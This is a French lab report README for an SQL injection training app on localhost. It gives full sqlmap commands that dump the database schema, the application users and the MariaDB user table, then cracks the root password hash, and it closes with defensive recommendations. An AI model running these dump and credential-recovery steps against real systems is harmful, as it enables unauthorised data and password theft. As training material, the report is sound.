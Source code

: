 # 🛡️ SQL Injection Training App - Rapport 🛡️

<div align="center">

![SQL Injection](https://evalian.co.uk/wp-content/uploads/2022/04/XSS-Attacks.png)

</div>


---

## 📋 Objectif

Ce projet a pour but de démontrer l'exploitation de vulnérabilités d'injection SQL dans une application web. Les objectifs spécifiques sont :

1. **Extraire le schéma de la base de données** et le sauvegarder dans un fichier `.csv`.
2. **Lister les utilisateurs de l'application** et les sauvegarder dans un fichier `.csv`.
3. **Lister les utilisateurs de MariaDB** et les sauvegarder dans un fichier `.csv`.
4. **Obtenir et documenter le mot de passe de l'utilisateur root de MariaDB** par force brute.
   
---

## 🛠️ Pré-requis

- **sqlmap** : Outil puissant pour automatiser la détection et l'exploitation des vulnérabilités d'injection SQL.
- **MariaDB** : Système de gestion de base de données utilisé par l'application cible.
- **Accès à l'application web vulnérable**.

---

## 🚀 Étapes Réalisées

### 1. 🔍 Identification des Vulnérabilités d'Injection SQL

En testant les champs du formulaire `register.php` avec une apostrophe (`'`), une erreur SQL a été générée, révélant l'utilisation de MariaDB. Cela a indiqué une potentielle vulnérabilité d'injection SQL.

**erreur :**

```
Error: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'd41d8cd98f00b204e9800998ecf8427e','','')' at line 1
```

---

### 2. 🗄️ Extraction du Schéma de la Base de Données

**Commande utilisée :**

```bash
sqlmap -u "http://localhost:8888/register.php" \
       --data="uid=test&password=test&name=test&descr=test" \
       --dbs --batch
```

**Bases de données identifiées :**

- `information_schema`
- `mysql`
- `performance_schema`
- `sqlitraining`
- `sys`

Nous avons ciblé la base de données `sqlitraining` pour extraire son schéma.

**Extraction des tables de `sqlitraining` :**

```bash
sqlmap -u "http://localhost:8888/register.php" \
       --data="uid=test&password=test&name=test&descr=test" \
       -D sqlitraining --tables --batch
```

**Tables trouvées :**

- `products`
- `users`

**Dump du schéma dans un fichier `.csv` :**

```bash
sqlmap -u "http://localhost:8888/register.php" \
       --data="uid=test&password=test&name=test&descr=test" \
       -D sqlitraining --dump --dump-format=CSV --batch
```

---

### 3. 👥 Liste des Utilisateurs de l'Application

En ciblant la table `users` de la base `sqlitraining`, nous avons extrait les utilisateurs de l'application.

**Commande :**

```bash
sqlmap -u "http://localhost:8888/register.php" \
       --data="uid=test&password=test&name=test&descr=test" \
       -D sqlitraining -T users --dump --dump-format=CSV --batch
```

**Résultat :**

Les informations des utilisateurs ont été sauvegardées dans `application_users.csv`.

---

### 4. 🗝️ Liste des Utilisateurs de MariaDB

Nous avons ciblé la base de données `mysql`, qui contient les informations des utilisateurs de MariaDB.

**Commande :**

```bash
sqlmap -u "http://localhost:8888/register.php" \
       --data="uid=test&password=test&name=test&descr=test" \
       -D mysql -T user --dump --dump-format=CSV --batch
```

**Résultat :**

La liste des utilisateurs de MariaDB a été extraite et sauvegardée dans `mariadb_users.csv`.

---

### 5. 🔐 Récupération du Mot de Passe de l'Utilisateur Root de MariaDB

En analysant les données extraites, nous avons récupéré le hachage du mot de passe de l'utilisateur `root`.

**Hachage récupéré :**

```
81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
```

**Déchiffrement du hachage :**

Nous avons utilisé [CrackStation](https://crackstation.net/) pour déchiffrer le hachage.

**Mot de passe obtenu :**

```
root
```

*Le mot de passe est étonnamment simple, ce qui souligne l'importance d'utiliser des mots de passe forts.*

---

### 6. 🏆 Challenge 2 : Récupération du Mot de Passe de l'Administrateur de l'Application

En examinant la table `users`, nous avons identifié l'utilisateur administrateur.

**Commande :**

```bash
sqlmap -u "http://localhost:8888/register.php" \
       --data="uid=test&password=test&name=test&descr=test" \
       -D sqlitraining -T users --dump --dump-format=CSV --batch
```

**Mot de passe de l'administrateur :**

```
admin
```

*Encore une fois, un mot de passe faible qui peut être facilement compromis.*

---

## 📁 Fichiers Générés

- **Schéma de la base de données** : [`database_schema.csv`](./database_schema.csv)
- **Liste des utilisateurs de l'application** : [`application_users.csv`](./application_users.csv)
- **Liste des utilisateurs de MariaDB** : [`mariadb_users.csv`](./mariadb_users.csv)
- **Mot de passe root de MariaDB** : [`mariadb_root_password.txt`](./mariadb_root_password.txt)
- **Mot de passe administrateur de l'application** : [`application_admin_password.txt`](./application_admin_password.txt)

---

## 📊 Résumé des Résultats

| Objectif                                                       | Statut    |
|---------------------------------------------------------------|-----------|
| Extraction du schéma de la base de données                    | ✅ Réussi |
| Liste des utilisateurs de l'application                       | ✅ Réussi |
| Liste des utilisateurs de MariaDB                             | ✅ Réussi |
| Récupération du mot de passe root de MariaDB                  | ✅ Réussi |
| Challenge 2 : Mot de passe de l'administrateur de l'application | ✅ Réussi |

---

## 🔒 Conclusion et Recommandations

Cette exploitation démontre à quel point les applications web peuvent être vulnérables aux attaques par injection SQL si elles ne sont pas correctement sécurisées.

**Recommandations :**

- **Utiliser des requêtes préparées** : Éviter les concaténations de chaînes pour construire des requêtes SQL.
- **Valider et assainir toutes les entrées utilisateur** : Utiliser des fonctions d'échappement et de validation.
- **Mots de passe forts** : Toujours utiliser des mots de passe complexes et uniques pour les utilisateurs et les administrateurs.
- **Mises à jour régulières** : Garder les systèmes et les applications à jour avec les derniers correctifs de sécurité.
- **Limiter les privilèges** : Les utilisateurs ne devraient avoir que les privilèges nécessaires pour accomplir leurs tâches.

